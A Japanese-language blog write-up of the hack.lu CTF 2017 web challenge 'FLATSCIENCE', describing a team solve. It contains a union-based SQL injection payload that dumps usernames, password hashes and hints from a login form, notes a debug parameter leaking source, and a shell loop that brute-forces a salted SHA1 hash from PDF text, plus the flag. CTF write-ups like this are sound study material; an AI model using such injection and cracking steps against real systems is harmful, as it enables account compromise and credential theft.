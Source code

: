 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/10/20/hacklu-ctf-2017-flatscience/
date: "2017-10-20T01:32:23+09:00"
tags: [ "ctf", "writeup", "hacklu-ctf", "web", "misc" ]
---
```


# hack.lu CTF 2017: FLATSCIENCE

人が`robots.txt`など下調べをし、別の人がSQLiでhashedなpasswordを抜き、残りの逆像求める部分を私がした。
たいてい独立にそれぞれ解いて終わるので、協力してやる感じは嫌いじゃないです。

## problem

<https://flatscience.flatearth.fluxfingers.net/>

昔のサイトにあったような迷路みたいなやつ

## solution

まず `robots.txt`。

```
User-agent: *
Disallow: /login.php
Disallow: /admin.php
```

`/login.php` ではSLQiができて、 `' union select 1, group_concat(name || ':' || password || ':' || hint) from Users;--` のようにすれば

```
admin:3fab54a50e770d830c0416df817567662a9dc85c:my fav word in my fav paper?!
fritze:2f72d9dd0f9d6ef605f402c91f517ea4:my love is...?
hansi:9e895c06352f4513fe179bf92b498397:the password is password
```

また `<!-- TODO: Remove ?debug-Parameter! -->` により、 `/login.php?debug` からソースコードを拾える。
`sha1($pass."Salz!")` が `3fab54a50e770d830c0416df817567662a9dc85c` な `$pass` を求めればよい。

`my fav word in my fav paper?!` って言ってるのでたくさん置いてあるPDF中にありそう。
とりあえず`wget`で再帰的に全部抜いて、grepとかではだめだったので以下のようにする:

``` sh
for f in flatscience.flatearth.fluxfingers.net/**/*.pdf ; do
    pdftotext $f /dev/stdout
done \
| sed 's/\s/\n/g' \
| sed 's/^\W*// ; s/\W*$//' \
| sort \
| uniq \
| while read line ; do
    echo -n "$line "
    echo -n "$line"'Salz!' | sha1sum
done \
| grep 3fab54a50e770d830c0416df817567662a9dc85c
```

`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`
